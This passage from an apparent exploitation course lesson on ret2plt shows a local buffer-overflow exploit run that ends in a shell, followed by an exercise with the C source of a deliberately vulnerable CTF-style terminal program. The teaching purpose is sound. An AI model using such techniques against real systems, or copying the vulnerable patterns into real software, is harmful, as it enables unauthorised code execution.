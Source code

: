 ```
ubuntu@ubuntu-xenial:/vagrant/lessons/9_bypass_ret2plt/scripts$ python 2_final.py
[+] Starting local process '../build/1_clock': Done
[*] Switching to interactive mode
Welcome to the Matrix.
The sheep are blue, but you see red
Your name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\x83\x0ﾭ�%\x86\x0
$ ls -la
?
$ !/bin/sh
$ ls -la
total 2100
drwxrwxr-x 1 ubuntu ubuntu    4096 Jan 13 15:56 .
drwxrwxr-x 1 ubuntu ubuntu    4096 Jan 13 15:56 ..
-rw-rw-r-- 1 ubuntu ubuntu     405 Jan 12 21:54 1_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu     468 Jan 12 21:57 2_final.py
-rw-rw-r-- 1 ubuntu ubuntu     408 Jan 12 22:41 3_event0_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu     483 Jan 12 22:52 4_event0_local.py
-rw-rw-r-- 1 ubuntu ubuntu     518 Jan 12 22:52 5_event0_remote.py
-rw------- 1 ubuntu ubuntu 2121728 Jan 13 15:56 core
$
[*] Stopped program '../build/1_clock'
```

### Exercises

Please do these exercises without looking at the solution.

#### Ex 9.1: Event 0

Let's start doing some difficult exercises. Here is event0. Try to solve this problem using the Ret2PLT technique.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int active = 1;
char name[200];
char * secret = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX";

void print_warning() {
    puts("=======================================================================================");
    puts("This Kaizen-85 Artificial Intelligence would like to remind you that this is not a toy.");
    puts("Please treat this terminal with the utmost care.");
    puts("Crashing this program will result in ship malfunction.");
    puts("You have been warned.");
    puts("=======================================================================================\n");
}

void print_prompt() {
    printf("Options for ");
    puts(name);
    puts("1. Peek Memory Address");
    puts("2. Change Name");
    puts("3. Overwite Memory Address");
    puts("9. Exit Terminal");
}

```